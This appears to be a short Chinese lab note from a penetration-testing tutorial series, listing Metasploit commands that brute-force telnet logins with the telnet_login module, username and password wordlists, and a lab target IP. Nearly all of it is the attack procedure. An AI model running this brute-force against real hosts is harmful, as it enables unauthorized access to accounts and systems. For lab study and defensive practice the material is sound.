


# 23_telnet

使用msf的telnet_login脚本爆破

> search telnet_login

选择脚本

> use auxiliary/scanner/telnet/telnet_login

查看选项

> options

选择用户名字典

> set user_file /root/username1.txt

选择密码字典

> set pass_file /root/password.txt

选择靶机ip

> set rhosts 10.10.10.6

执行

> exploit

得到可登录的用户名和密码

